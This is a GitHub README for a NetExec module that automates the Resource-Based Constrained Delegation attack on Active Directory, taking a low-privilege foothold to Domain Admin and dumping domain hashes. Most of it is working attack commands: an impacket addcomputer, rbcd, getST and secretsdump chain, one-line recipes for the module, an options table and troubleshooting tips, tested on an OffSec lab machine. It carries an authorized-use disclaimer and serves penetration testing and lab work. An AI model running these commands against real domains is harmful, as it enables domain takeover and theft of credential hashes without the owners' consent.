

<h1 align="center">nxc-modules</h1>

<p align="center">
  <em>Custom modules for <a href="https://github.com/Pennyw0rth/NetExec">NetExec</a> that collapse multi-step AD attacks into a single command.</em>
</p>

<p align="center">
  
  
  
  
</p>

```bash
cp modules/<name>.py ~/.nxc/modules/     # nxc auto-loads it
nxc ldap -L | grep <name>
```

> For authorized penetration testing, lab work, and CTFs only. Don't run these against infrastructure you don't own or aren't paid to break.

---

## `rbcd` &nbsp;·&nbsp; GenericAll on a computer &rarr; Domain Admin, in one line

You just landed a low-priv account that BloodHound says has `GenericAll` /
`GenericWrite` / `WriteDacl` / `AddAllowedToAct` over a computer object (nine
times out of ten, the Domain Controller). The classic
**Resource-Based Constrained Delegation** path from here is five separate tools,
four intermediate values copied between them, and one case-sensitive Kerberos
footgun that fails silently.

This module does the whole thing and hands you a ready-to-use ticket.

### Demo — OffSec Proving Grounds: *Resourced*

<a href="https://github.com/biontdv/nxc-modules/releases/download/v0.1.0/demo-resourced.mp4">
  
</a>

<sub>▶ <a href="https://github.com/biontdv/nxc-modules/releases/download/v0.1.0/demo-resourced.mp4">full-quality recording (mp4)</a> &nbsp;·&nbsp; 0:30 &nbsp;·&nbsp; foothold user with <code>GenericAll</code> on <code>RESOURCEDC$</code> (leaked in an ntds.dit backup on an open share) &rarr; <code>Administrator</code> and <code>krbtgt</code> hashes</sub>

### Before / after

<table>
<tr><th>The usual dance</th><th>With <code>-M rbcd</code></th></tr>
<tr><td>

```bash
impacket-addcomputer 'd/u:p' -computer-name 'PWN$' \
  -computer-pass 'P4ss' -dc-ip 10.0.0.1
impacket-rbcd 'd/u:p' -delegate-to 'DC01$' \
  -delegate-from 'PWN$' -action write -dc-ip 10.0.0.1
impacket-getST -spn 'cifs/dc01.d.local' \
  -impersonate Administrator 'd/PWN$:P4ss' -dc-ip 10.0.0.1
export KRB5CCNAME=Administrator@cifs_dc01...ccache
impacket-secretsdump -k -no-pass -just-dc dc01.d.local
```

</td><td>

```bash
nxc ldap 10.0.0.1 -u u -p p -M rbcd \
  -o TARGET=DC01 ACTION=full DUMP=true CLEANUP=true
```

</td></tr>
</table>

---

## Install

```bash
git clone https://github.com/biontdv/nxc-modules
cp nxc-modules/modules/rbcd.py ~/.nxc/modules/
nxc ldap -M rbcd --options
```

**Needs:**

- `nxc` with a working `ldap` connection to the DC
- impacket CLI tools on `PATH` (`impacket-addcomputer`, `impacket-rbcd`, `impacket-getST`, `impacket-secretsdump`)
- the DC FQDN **resolvable locally** — add it to `/etc/hosts`, or `getST` / `secretsdump` fail (often with no error at all)

---

## What it actually does

```
 ┌─ LDAP (reuses the authenticated nxc session) ─────────────┐
 │  resolve dNSHostName · read MachineAccountQuota · list    │
 │  current msDS-AllowedToActOnBehalfOfOtherIdentity         │
 └──────────────────────────────────────────────────────────┘
        │
        ▼   ①  no FROM given?  create a machine account        impacket-addcomputer
        ▼   ②  write msDS-AllowedToActOnBehalfOfOtherIdentity   impacket-rbcd  -action write
        ▼   ③  S4U2self + S4U2proxy as IMPERSONATE             impacket-getST
        ▼   ④  save ccache  →  print  export KRB5CCNAME=...
        ▼   ⑤  optional: secretsdump -just-dc                   impacket-secretsdump
        ▼   ⑥  optional: flush the attribute / drop the computer
```

LDAP recon runs in-process through the `nxc` connection you already
authenticated. The privileged steps shell out to the impacket CLIs, because
`impacket.examples` isn't importable from the Debian/Kali packages.

---

## Recipes

**One-shot to DCSync** (auto-creates a machine account, needs MAQ &gt; 0):

```bash
cd ~/loot     # the .ccache lands in the current directory
nxc ldap 10.10.10.10 -u lowpriv -H <nthash> \
  -M rbcd -o TARGET=DC01 ACTION=full IMPERSONATE=Administrator DUMP=true CLEANUP=true
```

**Look, don't touch** — show the current delegation config:

```bash
nxc ldap 10.10.10.10 -u lowpriv -p 'Passw0rd!' -M rbcd -o TARGET=DC01 ACTION=read
```

**Bring your own computer account:**

```bash
nxc ldap 10.10.10.10 -u lowpriv -p 'Passw0rd!' \
  -M rbcd -o TARGET=DC01 FROM='EVILPC$' FROM_PASS='Summer2026!' ACTION=full
```

**Undo it:**

```bash
nxc ldap 10.10.10.10 -u lowpriv -H <nthash> -M rbcd -o TARGET=DC01 ACTION=flush
```

**Use the ticket it gave you:**

```bash
export KRB5CCNAME=./rbcd_Administrator_DC01.ccache
nxc smb dc01.domain.local --use-kcache
impacket-secretsdump -k -no-pass -just-dc -dc-ip 10.10.10.10 dc01.domain.local
```

---

## Options

| Option | Default | Meaning |
|--------|---------|---------|
| `TARGET` | host nxc is talking to | computer object to configure delegation **on** — `DC01`, `DC01$`, or FQDN |
| `ACTION` | `full` | `full` (write + S4U + ccache) · `read` · `write` (no ticket) · `flush` |
| `FROM` | *auto-create* | sAMAccountName of an attacker-controlled account to delegate **from** |
| `FROM_PASS` / `FROM_HASH` | — | credentials for `FROM` when you supply your own |
| `COMPUTER` | random `NXC-xxxxxx$` | name for the machine account to create |
| `COMPUTER_PASS` | random | password for the created machine account |
| `IMPERSONATE` | `Administrator` | user to impersonate through S4U |
| `SPN` | `cifs/<TARGET dNSHostName>` | service SPN to request |
| `OUTDIR` | current dir | where to write the `.ccache` |
| `FORWARDABLE` | `false` | add `-force-forwardable` to `getST` (some hardened DCs need it) |
| `DUMP` | `false` | run `secretsdump -just-dc` with the resulting ticket |
| `CLEANUP` | `false` | flush the RBCD attribute and try to delete the created computer |
| `METHOD` | `SAMR` | `impacket-addcomputer` method: `SAMR` or `LDAPS` |

---

## Gotchas

- **DNS.** The target FQDN has to resolve locally or `getST` / `secretsdump`
  quietly do nothing. `echo '10.10.10.10 dc01.domain.local' | sudo tee -a /etc/hosts`.
- **Cleanup is partial without DA.** `CLEANUP=true` reliably flushes the
  delegation attribute, but deleting the machine account you created usually
  needs Domain Admin (a MAQ creator gets `CreateChild`, not `Delete`, and
  self-delete is normally blocked). The module prints the exact
  `impacket-addcomputer ... -delete` line to run once you're DA.
- **Kerberos SPN casing.** A ccache from `getST -impersonate` contains only the
  service ticket, and impacket matches the SPN case-sensitively — mismatch the
  host casing between the SPN and your `secretsdump` target and it bails with no
  message. The module keeps them consistent; do the same if you script around it.
- **Clock skew** with the DC must be under 5 minutes (`ntpdate` / `rdate` / `faketime`).

---

## Verified

End to end on **OffSec Proving Grounds – Resourced** (`resourced.local`):
foothold user with `GenericAll` on the DC computer object &rarr; auto-created
machine account &rarr; RBCD write &rarr; S4U as `Administrator` &rarr;
`secretsdump -just-dc` dumped `Administrator` and `krbtgt`. See the video above.

---

## License

MIT — see [LICENSE](LICENSE).

## Credits

Built on [NetExec](https://github.com/Pennyw0rth/NetExec) and
[Impacket](https://github.com/fortra/impacket). RBCD research by
Elad Shamir, `@_nwodtuhs`, `@podalirius_`, and the wider AD security community.
